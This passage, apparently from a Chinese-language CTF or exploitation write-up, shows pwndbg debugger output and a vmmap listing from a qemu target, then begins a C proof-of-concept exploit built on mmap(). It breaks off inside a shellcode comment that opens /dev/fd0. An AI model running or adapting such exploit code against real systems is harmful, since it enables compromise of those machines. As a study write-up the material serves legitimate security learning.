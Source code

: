```
*RBP  0xffffffff
*RSP  0x7ffce3627288
 RIP  0x4d12a6 ◂— ret    
────────────────────────────────────────────
 ► 0x4d12a6    ret    
 
   0x4d12a7    cmp    edi, 0xe
   0x4d12aa    jne    0x4d12d1 <0x4d12d1>
    ↓
   0x4d12d1    mov    edx, edi
   0x4d12d3    movzx  ecx, di
   0x4d12d6    sar    edx, 0x10
   0x4d12d9    cmp    ecx, 0xffff
   0x4d12df    jne    0x4d1306 <0x4d1306>
    ↓
   0x4d1306    cmp    edx, 2
   0x4d1309    je     0x4d1331 <0x4d1331>
    ↓
   0x4d1331    cmp    ecx, 0x31
────────────────────────────────────────────
<Could not read memory at 0x7ffce3627288>
────────────────────────────────────────────
 ► f 0         0x4d12a6
────────────────────────────────────────────
pwndbg> 
```

可以看到 stack 位置已經跑掉了:

```
pwndbg> vmmap
...
          0x502000           0x504000 r-xp     2000 0      <qemu>
          0x703000           0x704000 r-xp     1000 0      <qemu>
    0x7ffce3646000     0x7ffce3647000 r-xp     1000 0      <qemu>
    0x7ffce364a000     0x7ffce364b000 r-xp     1000 0      <qemu>
0xffff89e740000000 0xffff89e740099000 rwxp    99000 0      <qemu>
...
```

但是有時候 payload 可以 work，猜測 stack 歪掉的原因是 `swap` 時出了問題。以下 exploit 為概念的 PoC，實際運作可能會因為環境而失敗:

`mmap()` 版本:

```c
#define _GNU_SOURCE 
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

#define PAGE_1MB_SIZE 0x100000
#define MB_10 0xa00000
#define MAP_LIST_SIZE 0x80

/*
mov rax, 2 
xor rdi, rdi 
push rdi 
mov rdi, 0x3064662f7665642f # /dev/fd0
push rdi 
mov rdi, rsp 
xor rsi, rsi 
syscall 
```